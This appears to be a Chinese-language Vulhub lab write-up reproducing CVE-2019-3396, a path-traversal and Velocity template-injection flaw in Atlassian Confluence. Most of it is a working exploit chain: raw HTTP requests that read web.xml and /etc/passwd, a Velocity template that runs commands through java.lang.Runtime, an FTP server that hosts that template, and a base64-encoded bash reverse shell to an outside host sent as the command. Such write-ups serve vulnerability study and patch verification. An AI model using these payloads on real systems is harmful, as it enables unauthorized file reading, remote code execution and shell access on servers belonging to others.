







# Atlassian Confluence 路径穿越与命令执行漏洞 CVE-2019-3396

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

参考资料：

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 6.10.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书：



然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

如果提示填写cluster node，路径填写`/home/confluence`即可：



后续可能要求你填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`：



配置系统管理员账户 Configure User Management / Configure System Administrator Account



安装完成之后，新建一个话题，然后，选择其他宏→小工具连接器



## 漏洞复现

### 读取文件web.xml

点击插入，抓包并修改，发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```


### 读取/etc/passwd

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。


### 远程代码执行

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令

修改请求中_template参数的值，可以包含远程文件，支持https协议，http目前无法利用

使用python3开启一个简单的ftp服务器

```
python3 -m pip install pyftpdlib
python3 -m pyftpdlib -p 8888
```

在/home/kali目录下添加confluence.vm文件，内容为

```
#set ($exp="exp")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

修改_template参数的值为ftp://localhost:8888/confluence.vm并在其后加入command值，设置为id

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"http://192.168.174.128:8888/confluence.vm","command":"id"}}}
```

发送后成功执行命令



### 反弹shell

使用base64编码来绕过java的机制

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
```

发送数据包，将command值换为base64的payload

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Content-Length: 308
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.174.128:8090
Referer: http://192.168.174.128:8090/pages/createpage.action?useDraft=true&spaceKey=TEST&draftId=98362&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://192.168.174.128:8888/confluence.vm","command":"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"}}}
```

发送后成功反弹shell



